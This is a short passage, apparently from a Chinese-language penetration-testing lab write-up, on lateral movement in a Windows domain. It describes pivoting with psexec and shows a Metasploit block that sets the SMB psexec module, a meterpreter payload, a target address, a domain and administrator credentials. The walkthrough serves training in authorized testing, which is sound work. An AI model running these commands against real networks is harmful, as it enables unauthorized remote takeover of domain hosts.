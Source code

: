 选择psexec进行横向，然后在web2上新开一个监听（需要改成与域控一个网段）

![image-20231122190557158](images/56.png)

![image-20231122190652351](images/57.png)

当然也可以使用msf来进行smb登陆

```
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/bind_tcp
set rhost 10.10.10.135
set smbdomain ack123.com
set smbuser administrator
set smbpass P@55w0rd!
```
